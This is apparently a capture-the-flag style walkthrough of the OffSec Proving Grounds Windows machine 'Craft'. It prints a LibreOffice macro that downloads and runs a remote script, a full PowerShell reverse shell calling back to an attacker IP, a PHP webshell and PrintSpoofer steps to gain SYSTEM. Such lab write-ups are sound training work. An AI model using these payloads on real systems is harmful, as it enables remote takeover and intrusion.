

# Craft — OffSec Proving Grounds Walkthrough

**Platform:** Proving Grounds Practice
**Difficulty:** Intermediate
**OS:** Windows

---

## TL;DR

Apache web server → LibreOffice file upload feature → Malicious macro in `.odt` for reverse shell → Webshell lateral movement to Apache user → PrintSpoofer for NT AUTHORITY\SYSTEM.

---

## Enumeration

```bash
nmap -sV -p- 192.168.192.169
```

**Open Ports:**
| Port | Service | Version |
|------|---------|---------|
| 80 | HTTP | Apache httpd 2.4.48 ((Win64) OpenSSL/1.1.1k PHP/8.0.7) |

The only port open is an Apache web server on port 80. Checking out the website, we find a file upload function that specifically requests LibreOffice `.odt` files.

---

## Exploitation — Malicious `.odt` Macro

Since the site processes `.odt` files, we can create a LibreOffice document containing a malicious macro that executes a PowerShell reverse shell when opened.

### 1. Macro Creation
In LibreOffice, go to Tools > Macros > Edit Macros and create the following Basic macro:

```basic
REM  *****  BASIC  *****
Sub Main
	shell("cmd /c powershell iwr http://192.168.45.198:80/script.ps1 -o C:/windows/tasks/script.ps1 ")
	shell("cmd /c powershell -c C:/windows/tasks/script.ps1")
End Sub
```

Go to Tools > Customize > Events and set the **Open document** event to trigger this macro.



### 2. PowerShell Payload
Host a standard PowerShell reverse shell (`script.ps1`) on your Kali machine:

```powershell
$client = New-Object System.Net.Sockets.TCPClient('192.168.45.198',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
*(Ensure there are no trailing spaces or newlines!)*

### 3. Execution
Start your listener, host the payload, and upload the `.odt` file. We get an initial shell! 

### 4. Lateral Movement to `apache`
Initial enum reveals nothing interesting, but we see an `apache` user. We can drop a PHP webshell into the webroot (`C:\xampp\htdocs`):

```php
<?php system($_GET['cmd']); ?>
```
Accessing the webshell via the browser and executing a base64 encoded reverse shell gives us a dedicated shell as the `apache` user.

---

## Privilege Escalation — PrintSpoofer

Checking privileges for the `apache` user:
```cmd
whoami /priv
```
We have `SeImpersonatePrivilege`!

This means we can use PrintSpoofer. Transfer `PrintSpoofer64.exe` to the machine and execute:
```cmd
PrintSpoofer64.exe -i -c cmd
```
**NT AUTHORITY\SYSTEM.** 🎉

---

## Key Takeaways

- **File Uploads** accepting document formats (like `.odt`, `.doc`) are prime targets for Macro-based RCE
- **LibreOffice macros** use slightly different syntax than Office VBA but can trivially execute `cmd.exe /c`
- Sometimes lateral movement to the service account (e.g., `apache`) is required to access exploitable privileges like `SeImpersonatePrivilege`
- **PrintSpoofer/JuicyPotato** are the go-to tools when `SeImpersonate` is enabled

---

*Thanks for reading! Follow for more OffSec walkthrough content.*
